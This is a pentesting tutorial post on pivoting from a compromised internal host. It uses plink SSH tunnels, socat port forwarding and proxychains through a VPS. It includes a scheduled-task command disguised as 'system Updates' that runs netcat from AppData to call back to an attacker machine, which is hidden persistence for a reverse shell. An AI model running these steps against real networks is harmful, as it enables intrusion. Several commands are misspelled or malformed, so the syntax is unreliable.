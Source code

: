 ```yaml
---
layout: single
title:  "Understanding SSH Tunnelling and Proxychains"
---
```


Having a good knowledge on SSH tunnelling is an important tool in the arsenal for pentesting engagements and for playing networked Capture The Flag (CTF) events. 

# Problem Statement
We have gained an initial foothold on one of the internal system of an organization. Now, we want to pivot to other systems and for this we require to run `nmap` scans on the internal networks. May be the organization is also running an internally hosted website which is not accessible from outside.How do we expose the internal ports/traffic to the outside attacker machine so that we can run our tools and gain access to resources which are not exposed to the outside world?

# Setup
The setup is given in figure below:

![Deployment Architecture of Application](../assets/images/2021-06-07-ssh-tunnel-fig-1.png){: .align-center }
For our penetration testing of the website we have been given a PC where we can setup the proxy. In penetration testing terms let's call it a `victim` PC.

# Actions at Victim Machine
## Step 1 (Optional): 
Let us assume,we have made an entry into the task scheduler of the victim machine. It will run the `netcat.exe` once it boots up and will connect with the listener running in the Kali machine.

Let's make the task scheduler entry, to run the task once a day
```
# Make entry in task scheduler
 SCHTASKS /CREATE /SC DAILY /TN "SystemTask\system Updates" /TR "c:\Users\Dell\AppData\Roaming\WinUpdate\netcat.exe" /ST 10:00
```
## Step 2:
Once, we get the victim machine command prompt back to our Kali machine, we will start the `socate.exe`. This program will forward the traffic to its local port:
```
socate.exe TCP-LISTEN:8080,fork,reuseaddr TCP:<target-server-ip>:443
```
Once the traffic has been forwarded to a specific port, in our case `8080`, we can verify the same through `netstat` command:
```
# Now check if the port has been forwarded
netstat -ano // check connection
```
## Step 3:
We will redirect the traffic of the victim PC to the Virtual Private Server (VPS) through SSH tunnel, using `plink.exe` for windows.
```
# Connect with VPS
plink.exe -l <username> -pw <password> -R 8080:127.0.0.1:8080 <vps ip>
```

# Actions at VPS Machine
```
# To check with curl
/etc/hosts
127.0.0.1 <domain-name>
```
# Forward Traffic to Kali Machine from VPS
```
# On Kali Machine
ssh -g -L 8080:localhost:8080 -f -N <username>@<vps ip> // this use when want to open localhost
```
# Now open the browser and enter
```
http://<domain-name>:8080
```

# Configure SOCKS5 proxy
## Actions at victim machine
```
plink.exe -l <username> -pw <password> -D 8080:127.0.0.1:8080 <vps ip>
```
## Actions at VPS
### Install proxychains
```
$ yum install proxychains
$ nano /etc/proxychain.conf
socks5 <vps-public-ip> 8080
```
## Check on terminal
```
$ proxychains curl www.myweb.com
```
## On Kali Machine
### Do settings in the browser, if we want to open websites in browser

### In case you want to use terminal for traffic and not browser, perform following steps
```
$ yum install proxychains

# nano /etc/proxychain.conf
socks5 <vps-public-ip> 8080
```
## Check on terminal
```
$ proxychains curl www.myweb.com
```

#### Reference
- https://pswalia2u.medium.com/ssh-tunneling-port-forwarding-pivoting-socks-proxy-85fb7129912d